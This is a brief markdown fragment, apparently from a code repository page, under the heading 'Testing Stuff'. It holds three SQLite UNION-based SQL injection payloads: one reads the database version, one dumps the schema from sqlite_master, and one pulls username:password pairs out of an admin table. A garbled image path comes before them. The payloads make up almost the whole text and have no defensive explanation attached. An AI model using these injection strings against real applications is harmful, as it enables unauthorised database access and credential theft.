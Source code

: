 ### Testing Stuff

```
' Union Select sqlite_version() '
' Union Select group_concat(sql) FROM sqlite_master '
' Union Select group_concat(username || ":" || password) FROM admintable '
```

Testing if this is done correctly


